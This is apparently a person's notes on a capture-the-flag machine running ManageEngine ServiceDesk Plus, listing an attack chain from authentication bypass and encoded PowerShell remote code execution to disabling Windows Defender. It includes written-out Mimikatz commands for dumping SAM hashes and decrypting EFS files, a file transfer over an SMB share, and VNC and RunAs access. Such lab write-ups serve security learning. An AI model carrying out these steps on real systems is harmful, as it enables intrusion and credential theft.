 ## Tecnicas utilizadas
- ManageEngine ServiceDesk Plus User Enumeration  
- ManageEngine ServiceDesk Plus Authentication Bypassing  
- ManageEngine ServiceDesk Plus Remote Code Execution  
- Disabling Windows Defender (PowerShell)  
- Mimikatz - Getting NTLM User Hashes (lsadump::sam)  
- Reading Event Logs with Powershell (RamblingCookieMonster) [Get-WinEventData]  
- Decrypting EFS files with Mimikatz  
- Getting the certificate with Mimikatz (crypto::system)  
- Decrypting the masterkey with Mimikatz (dpapi::masterkey)  
- Decrypting the private key with Mimikatz (dpapi::capi)  
- Building a correct PFX with Openssl  
- Installing the PFX via certutil  
- Installing VNC in the box via msiexec  
- Connecting to the VNC service using vncviewer  
- Converting Secure String File to PlainText  
- Using RunAs to execute commands as the administrator
## Procedimiento
- Default credentials
- Exploit emnumeration
- Bash scripting
- Bypassing 
- RCE, InvokePSTCP, ejecutar el comando en base64 ``cmd /c powershell -nop -enc $BASE64Command``
- Verificar si hay archivos cifrados en el sistema ``cipher /c $archivo``
- Subir el mimikatz de gentilkiwi
- Desactivar el antivirus
- Dumpear todos los hashes del sistema ``.\mimikatz.exe "privilege::debug" "lsadump::sam" "exit"``
- Utilizar el script en PS *GET-WinEventData.ps1* 
![[Pasted image 20221111123200.png]]
- Filtrar por *new process has been created*
- Utilizar **mimikatz decrypt EFS files**
- Transferinors el archivo .der con impacket-smbserver haciendo uso de credenciales
- Creamos una unidad logica hacia nuestro recurso compartido ``net use x:\\$Ip\$folder /user:$usuario $password``
- Seguimos los pasos de *mimikatz decrypt EFS files*
- Instalar tightvnc en la maquina
![[Pasted image 20221111131713.png]]
- conectarse como administrator con runAs ``runas /user:$user cmd.exe``

